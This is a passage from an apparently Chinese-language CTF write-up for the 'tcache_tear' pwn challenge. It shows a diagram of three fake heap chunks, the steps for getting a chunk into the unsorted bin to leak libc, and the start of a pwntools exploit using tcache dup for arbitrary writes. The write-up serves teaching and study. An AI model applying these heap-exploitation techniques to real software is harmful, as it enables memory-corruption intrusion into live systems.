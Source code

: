 可以看到free函数对当前的堆块的nextchunk也进行了相应的检查，并且还检查了nextchunk的inuse位，这一位的信息在nextchunk的nextchunk中，所以在这里我们总共要伪造三个堆块。第一个堆块我们构造大小为0x500，第二个和第三个分别构造为0x20大小的堆块，这些堆块的标记位，均为只置prev_inuse为1，使得free不去进行合并操作。如图：

```
                        bss

name  +------------> +--------+ +------------+
                     |   0    |
                     +--------+
                     |  0x501 |
ptr   +------------> +--------+
                     |        |
free(ptr);           |        |
                     |        |  fake chunk 1
                     |        |
                     |        |
                     |        |
                     |        |
                     |        |
                     |        |
name + 0x500  +----> +--------+ +------------+
                     |   0    |
                     +--------+
                     |  0x21  |
                     +--------+  fake chunk 2
                     |   0    |
                     +--------+
                     |   0    |
                     +--------+ +------------+
                     |   0    |
                     +--------+
                     |  0x21  |
                     +--------+  fake chunk 3
                     |   0    |
                     +--------+
                     |   0    |
                     +--------+ +------------+
    
```

而且我们最后free的时候需要的指针是name+0x10位置处的数据部分指针，这样才能正确的free掉这个堆块，所以我们使用如下策略（当然还可以使用其他策略）：

1. 在最开始输入name时，直接构造好chunk1的前16个字节
2. 然后利用任意地址写构造name+0x500的后两个堆块
3. 再次利用任意地址写，向name+0x10写任意数据，目的是执行完最后一个malloc，ptr全局变量会被更新为name+0x10
4. free即可将这个堆块送入unsorted bin中
5. 使用info函数读取name前0x20字节的内容，即可泄露unsorted bin地址
6. 经过本地调试unsorted bin距离libc基址的偏移为0x3ebca0

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./tcache_tear")
io =  process(myelf.path)

sla     = lambda delim,data :  io.sendlineafter(delim,data)
init    = lambda name       :  sla("Name:",name)
malloc  = lambda size,data  : (sla("choice :","1"),sla("Size:",str(size)),sla("Data:",data))
free    = lambda            :  sla("choice :","2")
info    = lambda            :  sla("choice :","3")

# use tcache dup to arbitrary address write
def aaw(len,addr,data):
    malloc(len,'a')
    free()
    free()
```